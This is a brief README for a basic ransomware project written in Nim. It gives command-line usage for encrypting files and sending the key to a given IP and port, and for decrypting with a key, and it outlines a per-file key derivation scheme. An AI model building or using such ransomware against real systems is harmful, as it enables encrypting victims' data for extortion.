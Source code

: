 # ransom
Basic Ransomware in Nim

# usage
```
ransom e [path] [ip] [port]
ransom d [path] [key]
```
- **/!\** the key will be sent in plain text to the server

# how
For each file, the ransom will generate a new key using the master key generated.  
`KDF(masterKey, filename, filesize) = AES(masterkey, SHA(filename & $(filesize))`
